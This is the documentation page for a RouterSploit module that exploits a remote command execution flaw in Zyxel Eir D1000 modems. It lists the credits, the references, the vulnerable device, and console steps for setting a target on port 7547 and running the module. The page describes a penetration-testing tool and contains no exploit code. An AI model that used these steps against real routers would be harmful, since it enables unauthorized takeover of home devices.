 # Zyxel Eir D1000 RCE

## Description
Module exploits Remote Command Execution vulnerability in Zyxel/Eir D1000 devices.If the target is vulnerable it allows to execute commands on operating system level.

## Authors
* kenzo # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://devicereversing.wordpress.com/2016/11/07/eirs-d1000-modem-is-wide-open-to-being-hacked/](https://devicereversing.wordpress.com/2016/11/07/eirs-d1000-modem-is-wide-open-to-being-hacked/)
* [https://isc.sans.edu/forums/diary/Port+7547+SOAP+Remote+Code+Execution+Attack+Against+DSL+Modems/21759](https://isc.sans.edu/forums/diary/Port+7547+SOAP+Remote+Code+Execution+Attack+Against+DSL+Modems/21759)
* [https://broadband-forum.org/technical/download/TR-064.pdf](https://broadband-forum.org/technical/download/TR-064.pdf)

## Vulnerable devices
* Zyxel EIR D1000

## Usage
```
rsf > use exploits/zyxel/d1000_rce
rsf (Zyxel Eir D1000 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       7547                 Target port


rsf (Zyxel Eir D1000 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Zyxel Eir D1000 RCE) > run
[*] Running module...
```
